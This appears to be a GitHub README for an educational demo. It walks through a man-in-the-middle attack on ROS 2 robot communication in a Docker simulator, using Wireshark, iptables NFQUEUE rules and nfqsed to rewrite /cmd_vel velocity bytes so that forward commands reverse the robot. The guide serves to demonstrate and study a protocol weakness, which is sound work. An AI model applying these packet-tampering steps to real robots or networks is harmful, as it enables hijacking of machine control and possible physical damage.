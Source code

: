 # ROS2_Attack_Demo_Educational

Table of Contents
=================
  * [Description](#description)
  * [Requeriments](#requeriments)
  * [Instructions](#instructions)
  * [Documentation](#documentation)


  
## Description 
This repository contains a step-by-step guide to perform a MITM attack in ROS 2, for educational purposes. This guide makes use of the MERLIN2_docker platform, which consists of a docker image with a simulator for the RB1 robot.

The purpose of this guide is to present the vulnerabilities present in the communication mechanisms used by the ROS 2 framework.

## Requeriments

First of all, the following software is required to perform the experiment:

 - A installation of `Docker`
 - A local `ROS 2` distribution installed (Humble is recommended)
 - The package `ros-<DISTRO>-teleop-twist-keyboard`
 - A installation of `Wireshark`
 - `nfqsed` tool [https://github.com/rgerganov/nfqsed]
 - Docker image that contain the platform used for the experiment: [`MERLIN2_docker`](#https://github.com/MERLIN2-ARCH/merlin2_docker)
 - Installation of `Gazebo`
 - Installation of Rviz2
 - Installation of Rocker [https://github.com/osrf/rocker]

## Instructions

1. Execute the docker image with Rocker

    ```
    sudo rocker --nvidia --x11 --privilege mgons/merlin2:humble /bin/bash
    ```

2. Inside the docker run the simulator. This will open a local window for Gazebo and Rviz2.
    ```
    ros2 launch rb1_sandbox small_house.launch.py
    ```
    
    ![Gazebo Image](/images/Gazebo.png "Example of Gazebo execution with Rocker")
    ![RVIZ2 Image](/images/RVIZ2.png "Example of RVIZ2 execution with Rocker")
    
    
3. Run teleop node locally
    ```
    ros2 run teleop_twist_keyboard teleop_twist_keyboard
    ```
4. We will focus in the topic which have information about movement: /cmd_vel. With the following command we can see a list of the available topics.
    ```shell
    $ ros2 topic list
    ```
    ```shell
    /amcl/transition_event
    /amcl_pose
    /behavior_server/transition_event
    /behavior_tree_log
    /bond
    /bt_navigator/transition_event
    /camera/camera_info
    /camera/depth/camera_info
    /camera/depth/image_raw
    /camera/image_raw
    /camera/points
    /clicked_point
    /clock
    /cmd_vel
    /controller_server/transition_event
    ...
    ```
    
    We can see relevant information about the topic with `ros2 topic info <<topic_name>>>`. In this way, we can identify the message type that is been used by the topic. In that case that message type is: `geometry_msgs/msg/Twist`
    
    ```shell
    $ ros2 topic info /cmd_vel -v
    ```
    ```shell
    Type: geometry_msgs/msg/Twist
    Publisher count: 6
    Node name: teleop_twist_keyboard
    Node namespace: /
    Topic type: geometry_msgs/msg/Twist
    Endpoint type: PUBLISHER
    GID: 01.0f.68.a6.11.21.2c.5f
    .01.00.00.00.00.00.11.03.00.00.00.00.00.00.00.00
    QoS profile:
        Reliability: RELIABLE
        History (Depth): UNKNOWN
        Durability: VOLATILE
        Lifespan: Infinite
        Deadline: Infinite
        Liveliness: AUTOMATIC
        Liveliness lease duration: Infinite
    ```
    
    We also can show the structure of the message type:
    
    ```shell
    $ ros2 interface show geometry_msgs/msg/Twist
    ```
    ```shell
    Vector3 linear
    float64 x
    float64 y
    float64 z
    Vector3 angular
    float64 x
    float64 y
    float64 z
    ```
    
5. Teleop node will publish message in /cmd_vel topic. In that case, the node will publish a 0.5 value in X coordinate (of linear velocity) when the user press 'I' key.

    ```shell
    $ ros2 topic echo /cmd_vel
    ```
    ```shell
    linear:
    x: 0.5
    y: 0.0
    z: 0.0
    angular:
    x: 0.0
    y: 0.0
    z: 0.0
    ```
    
6. We must identify the Docker IP. In our case, the teleop node will be publishing in 172.17.0.1 while robot simulation has 172.17.0.2.

    ```shell
    $ ifconfig
    ```
    ```shell
    docker0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>
    mtu 1500
    inet 172.17.0.1 netmask 255.255.0.0
    broadcast 172.17.255.255
    inet6 fe80::42:14ff:fe51:3357 prefixlen 64
    scopeid 0x20<link>
    ether 02:42:14:51:33:57 txqueuelen 0 (
    Ethernet)
    RX packets 70409 bytes 17665691 (17.6 MB)
    RX errors 0 dropped 0 overruns 0 frame 0
    TX packets 11494 bytes 5410634 (5.4 MB)
    TX errors 0 dropped 0 overruns 0 carrier 0
    collisions 0
    ```
    
7. Run Wireshark (with root) and search for the ros2 packages. The teleop node can be used to generate traffic. We can use the next rule to filter the traffic: ```udp && ip.src==172.17.0.1 && ip.dst==172.17.0.2```. Once we have located a package we must search for the ports and replace them in the scriptDemo.sh file:

![Wireshark Image](/images/Wireshark.png "Example of ROS2 packages in Wireshark")

![Ports Image](/images/ports.png "Ports in Wireshark")

    
    ```shell
    $ sudo iptables -A INPUT -p udp --sport <<port_number>> -j NFQUEUE --queue-num 0
    $ sudo iptables -A OUTPUT -p udp --dport <<port_number>> -j NFQUEUE --queue-num 0
    ```
    
The script is modifying the package replacing the hexadecimal value of x coordinate (of linear velocity). The original value is 0xE03F (0.5 in decimal) and nfqsed will replace that value for 0xE0BF (-0.5 in decimal).

8. Next step consist in run the script and use teleop node to move the robot forward ("I" key), with nfqsed runing, the robot should moving backward when we press "I" key. With Wireshark we can monitor the traffic and see the modification of the package.

    ```
    $ ./scriptDemo.sh
    ```
    ```shell
    Rules (in hex):
    e03f -> e0bf
    opening library handle
    unbinding existing nf_queue handler for AF_INET (if any)
    binding nfnetlink_queue as nf_queue handler for AF_INET
    binding this socket to queue ’0’
    setting copy_packet mode
    packet received
    packet received
    rule match, changing payload: e03f -> e0bf
    packet received
    
    
    Remember that our script for run nfqsed need no be located inside the nfqsed folder, otherwise you will have to modify the script with the path to nfqsed.
    
    ![OriginalPackage Image](/images/paquete.png "Package before modification.")
    ![HackedPackage Image](/images/RVIZ2.png "Package after modification.")

## Documentation

Some useful links:

- Rocker Github: https://github.com/osrf/rocker
- nfqsed Github: https://github.com/rgerganov/nfqsed
- MERLIN2_docker Github: https://github.com/MERLIN2-ARCH/merlin2_docker
- MERLIN2_docker DockerHub: https://hub.docker.com/r/mgons/merlin2

Documentation:
- Paper:
- Demostration video: https://www.youtube.com/watch?v=p4E1PTxXucU&t=14s
